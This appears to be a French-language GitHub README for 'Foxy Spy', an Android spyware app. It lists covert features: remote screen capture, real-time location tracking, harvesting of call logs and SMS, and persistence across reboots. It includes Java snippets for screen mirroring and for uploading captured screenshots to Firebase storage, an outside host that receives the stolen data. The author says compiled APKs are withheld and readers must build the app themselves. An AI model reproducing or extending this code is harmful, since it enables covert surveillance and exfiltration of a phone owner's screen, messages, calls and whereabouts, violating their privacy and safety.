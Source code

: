 
## Fonctionnalités (Oui, ça fait peur)

### Ce que peut faire Foxy Spy
1. **Capture d'écran à distance**
   ```java
   // Extrait de MyServices.java
   mediaProjection.createVirtualDisplay("ScreenCapture",
           width, height, dpi,
           DisplayManager.VIRTUAL_DISPLAY_FLAG_AUTO_MIRROR,
           surface, null, null);
   ```
2. **Localisation en temps réel**  
   Utilisation des API Fused Location de Google
3. **Récupération des logs d'appels/SMS**  
   Via les ContentProviders Android
4. **Persistance**  
   L'appli survit au redémarrage grâce à un BroadcastReceiver

### Démonstration en Code
```java
// Envoi des données à Firebase
FirebaseStorage storage = FirebaseStorage.getInstance();
StorageReference storageRef = storage.getReference();
storageRef.child("screenshots/" + UUID.randomUUID().toString())
        .putBytes(imageData)
        .addOnSuccessListener(taskSnapshot -> {
            // C'est envoyé !
        });
```
![Bannière Foxy Spy](screens/banner1.png)

---

##  Comment Builder ce Projet (Guide Pas à Pas)
> **En fait ...** : je  ne veux pas que n'importe qui puisse utiliser cette application, je ne partage pas les fichiers APK compilés. Les utilisateurs devront builder eux-mêmes le projet.
